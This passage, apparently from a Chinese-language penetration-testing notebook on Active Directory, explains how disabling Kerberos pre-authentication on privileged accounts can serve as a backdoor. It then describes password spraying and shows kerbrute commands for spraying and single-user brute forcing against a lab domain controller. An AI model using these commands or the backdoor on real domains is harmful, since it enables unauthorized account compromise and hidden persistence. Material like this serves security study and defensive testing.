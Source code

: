 无域凭证

<img src="image/image-20230927181836802.png" alt="image-20230927181836802" style="zoom:80%;" />

该配置`不要求Kerberos预身份认证`默认不启用，可以给域内高权限用户配置该选项作为后门。

### 密码喷洒攻击

在kerberos的AS-REQ认证中当用户名存在时，密码正确或者错误返回包结果不一样，所以可以尝试爆破密码。

通常爆破就是用户名固定，爆破密码，但是密码喷洒，是用固定的密码去跑用户名。

```sh
./kerbrute_linux_amd64 passwordspray --dc 192.168.1.250 -d y5neko.com user.txt win71@123
```

单用户爆破密码：

```sh
./kerbrute_linux_amd64 bruteuser --dc 192.168.1.250 -d y5neko.com passwords.txt user1
```

<img src="image/image-20230927183050584.png" alt="image-20230927183050584" style="zoom:80%;" />
